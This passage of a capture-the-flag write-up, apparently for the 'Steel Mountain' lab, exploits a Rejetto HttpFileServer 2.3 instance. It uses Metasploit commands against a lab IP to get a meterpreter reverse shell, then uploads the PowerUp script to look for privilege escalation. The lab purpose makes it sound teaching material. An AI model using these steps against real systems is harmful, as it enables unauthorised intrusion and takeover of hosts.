 On clicking that leads us to this page which shows that it is a Rejetto HttpFileServer 2.3.

<img src="{{'/assets/img/images/04.Steel-Mountain/09.png' | prepend: site.baseurl }}" height="100">

<img src="{{'/assets/img/images/04.Steel-Mountain/10.png' | prepend: site.baseurl }}" height="600">

# Exploitation

We will search in metasploit if we can find any exploits.

<img src="{{'/assets/img/images/04.Steel-Mountain/11.png' | prepend: site.baseurl }}">

We found a module which is successfully tested on the version 2.3b. So, we will use this.

<img src="{{'/assets/img/images/04.Steel-Mountain/12.png' | prepend: site.baseurl }}" height="300">

We will set all the required options.

```shell
set rhost 10.10.2.217
```

```shell
set rport 8080
```

```shell
set lhost tun0
```

Run the exploit.

```shell
exploit
```

<img src="{{'/assets/img/images/04.Steel-Mountain/13.png' | prepend: site.baseurl }}">

We got the meterpreter reverse shell and we can read the user flag.

<img src="{{'/assets/img/images/04.Steel-Mountain/14.png' | prepend: site.baseurl }}" height="100">

# Privilege Escalation

Now, we will elevate our privileges. We will download the powershell script which can find common Windows privilege escalation vectors that rely on misconfigurations in the target. We will first download the script to our machine.

Let's upload it to the target.
```shell
upload powerup.ps1
```

<img src="{{'/assets/img/images/04.Steel-Mountain/15.png' | prepend: site.baseurl }}">
